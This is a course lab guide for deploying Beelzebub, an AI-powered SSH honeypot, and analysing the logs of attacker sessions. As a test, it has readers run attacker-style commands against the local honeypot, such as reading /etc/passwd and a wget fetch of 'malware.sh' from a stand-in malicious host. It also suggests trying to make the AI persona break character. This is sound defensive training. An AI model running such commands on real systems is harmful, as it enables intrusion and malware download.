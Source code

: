 Beelzebub is an advanced honeypot framework designed to provide a highly secure environment for detecting and analyzing cyber attacks. It offers a low code approach for easy implementation and uses AI to mimic the behavior of a high-interaction honeypot

>[!IMPORTANT]
>
>You can find the original GitHub of at [Beelzebub Repo](https://github.com/mariocandela/beelzebub)

# Setup
Participants will deploy and monitor an AI-powered SSH honeypot (Beelzebub) to detect and analyze attacker behavior in real time

```bash
sudo su -
```
```bash
apt update && apt upgrade -y
```
```bash
systemctl enable --now docker
```
```bash
cd /opt
```
```bash
git clone https://github.com/mariocandela/beelzebub.git
```

### Get the ChatGPT Api Key
- Go to [ChatGPT](https://chatgpt.com/) and create an account if you don’t have one
- Make sure you have credits or a payment method at [Billing Setting](https://platform.openai.com/settings/organization/billing/overview)
- Go to [API Keys](https://platform.openai.com/api-keys) and create a new key
- Save this key as you will only see it once!

### Deployment
- Make sure you are into **/opt/beelzebub/**

```bash
nano docker-compose.yml
```
 - Put your key here
<img width="295" height="53" alt="image" src="https://github.com/user-attachments/assets/eca9345f-c69c-45f2-8a00-5cf389e42b3b" />


- Also comment the **Default SSH Mapping**(ssh 22 port)
<img width="176" height="81" alt="image" src="https://github.com/user-attachments/assets/f02190d4-36ec-4638-8817-aae8a33ece43" />

```bash
cd configurations/services/
```
```bash
mv ./ssh-22.yaml ~
```
```bash
nano ./ssh-2222.yaml
```
 - Add your key with double quotes around it like `OPENAI_API_KEY: "your_api_key_here"`
```bash
cd /opt/beelzebub/
```
```bash
docker-compose build
```
```bash
docker-compose up -d
```

# Try it
Connect to it like this:

```bash
ssh -p 2222 root@127.0.0.1
``` 
- use password "**1234**"
- Try using any commands like **ls** or **id**
<img width="659" height="126" alt="image" src="https://github.com/user-attachments/assets/914c1f89-c3d0-412d-bae6-7b9fcee70d9e" />

Everything you see is AI generated, and that's what an attacker would see

Cool, right?

- Try running suspicious commands an attacker would use
```bash
uname -a
```
```bash
cat /etc/passwd
```
```bash
wget http://malicious.example/malware.sh
```
```bash
id
```
Now exit the session to export the logs

```bash
cd /opt/beelzebub/
```
```bash
docker-compose logs -f
```
```bash
docker-compose logs > honeypot.log
```

Take your time into analyzing the logs and seeing how they are being built

>[!TIP]
>
>Try to make ChatGPT break character, this method, like anything else in cybersecurity isn't flawless, but it surely tricks hackers and does its job, **to increase Attack Time**

---
[Back to the Lab](/courseFiles/Lab_07-deceptionSystems/deceptionSystems.md)



